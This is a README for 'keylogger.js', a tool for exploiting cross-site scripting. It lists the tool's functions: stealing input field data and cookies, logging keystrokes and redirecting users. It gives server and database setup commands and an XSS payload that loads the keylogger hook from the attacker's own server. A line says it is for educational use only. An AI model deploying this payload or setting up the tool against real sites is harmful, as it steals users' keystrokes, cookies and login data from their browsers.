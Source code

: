 # keylogger.js
A JS keylogger to exploit XSS

> This tool is only for educational purpose, do not use it against real environment



## Functionnalities

- Exfiltrate input field data
- Exfiltrate cookies
- Keylogging
- Display alert box
- Redirect user



## Install

You may need Apache + Mysq + PHP (+ php-curl)

```
# apt-get install apache2 mysql-server php php-mysql php-curl
```



Pull the keylogger source code:

```
git clone https://github.com/Sharpforce/keylogger.js.git
mv /var/www/html/keylogger/* ./
```



### Init the database

```
# mysql -u root
```

Creating a new user with specific rights:

```
MariaDB [(none)]> grant all on *.* to keylogger@localhost identified by 'keylogger';
Query OK, 0 rows affected (0.00 sec)

MariaDB [(none)]> flush privileges;
Query OK, 0 rows affected (0.00 sec)

MariaDB [(none)]> quit
Bye
```

Creating the database (will result in an empty page):

Visit the page http://ip/reset_database.php



### Exploit JS

The file keylogger_wip.js is a hook. You need to replace the ip address in the first line with the keylogger.js server ip address:

```javascript
var address = "your server ip";
```



Insert the hook in your XSS payload:

```
?vulnerable_param=<script src="http://your_server_ip/keylogger_wip.js"/>
```



Then, the keylogger server should list hooked browsers:

![image-20200214110103913](C:\Users\MälweenLeGoffic\AppData\Roaming\Typora\typora-user-images\image-20200214110103913.png)















